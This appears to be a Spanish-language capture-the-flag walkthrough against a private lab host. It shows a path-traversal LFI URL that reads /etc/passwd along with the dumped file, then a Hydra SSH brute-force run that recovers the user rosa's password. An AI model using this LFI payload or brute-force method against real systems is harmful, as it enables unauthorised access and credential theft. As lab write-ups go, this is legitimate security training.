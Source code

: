 Busco en el Poema “La ventana”, creo un diccionario usando cewl, le doy mil vueltas pero es un callejon sin salida.

![image](https://github.com/user-attachments/assets/342c412d-37d7-4698-b633-5e964e0c4714)


Cambio de estrategia enfocandolo desde otro punto de vista. ¿Será vulnerable a LFI?
Sigo convencido que la palabra love tiene algo que ver, asi que...

```
http://172.18.0.2/wordpress/index.php?love=../../../../../etc/passwd
```
BINGO!

![image](https://github.com/user-attachments/assets/363da62a-5e3c-4c69-a46f-7adce9807ae9)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
pedro:x:1001:1001::/home/pedro:/bin/bash
rosa:x:1002:1002::/home/rosa:/bin/bash
```


Voy a probar por ssh con hydra y tengo la sensación que debo atacar al usuario “rosa”.

```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-12 22:23:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344403 login tries (l:1/p:14344403), ~896526 tries per task
[DATA] attacking ssh://172.18.0.2:22/
[STATUS] 151.00 tries/min, 151 tries in 00:01h, 14344253 to do in 1583:16h, 15 active
[STATUS] 105.33 tries/min, 316 tries in 00:03h, 14344088 to do in 2269:39h, 15 active
[STATUS] 99.00 tries/min, 693 tries in 00:07h, 14343711 to do in 2414:46h, 15 active
[22][ssh] host: 172.18.0.2   login: rosa   password: lovebug
<finished>
```

